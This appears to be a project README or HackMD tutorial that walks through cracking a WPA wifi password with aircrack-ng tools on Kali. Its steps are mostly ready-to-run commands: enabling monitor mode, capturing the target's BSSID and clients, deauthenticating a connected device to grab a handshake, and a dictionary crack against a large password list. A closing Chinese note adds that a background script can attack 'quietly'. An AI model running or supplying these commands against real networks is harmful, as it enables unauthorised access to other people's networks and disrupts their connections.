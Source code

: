 # My-Waifu-Is-Not-Safe

# wifi: what's cracking?

## For Connection: network configuration


When pluging the usb device in, this window will pop up. Choose `Connect to Virtual machine` > select your destination device.

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

To check the device has already been connected, run `iwconfig` and you must see the device.
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

If you see the device by running `lsusb` but don't see it appears at `iwconfig`, again, do the steps above, or check the network settings below. And if you did them several times but still don't see the device, restart the virtual machine.

Here is the connection settings.
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
No need to bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
Usually the pluging usb is `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)


And the setting process is done. Go enjoy your cracking!

## Crack a wifi password: using commands

### Start Monitor Mode

Open monitor mode for the network adaptor is necessary. Here's several commands:

```bash=
ifconfig wlan0 down
```

If you run this, get no networks is normal.
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
If you see this, ignore it.
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

To test if monitor mode really on, and ready for injection:
```bash=6
aireplay-ng --test wlan0
```
This is a success response: Injection is working!
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### Turn off monitor mode and recorvery neworks

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```
Cause you've killed network manager, you don't have network connection. To recorver it, run:
```bash=3
service NetworkManager restart
```

### Crack a password

#### 1. get the target BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `62:2D:E9:E6:8A:47`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 2. get stations' mac address that connected to the target
```
airodump-ng --bssid 62:2D:E9:E6:8A:47 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

And files will store at `/home/kali/Desktop/nets/` with preffix `test1`.

Wait for 5 to 30 seconds, their should be an address (or addresses) below `STATION`.
By the way, the channel `CH` should stay at `1`.
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

Open **ANOTHER** terminal, and the command above should stay running.
```
aireplay-ng -0 20 -a 62:2D:E9:E6:8A:47 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

Check the ACK you just get, the file name extension is `.cap`. And usually the latest one has the biggest number.
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

And there we go!
```
aircrack-ng -a2 -b 62:2D:E9:E6:8A:47 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## Crack a wifi password: with Python scripts

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。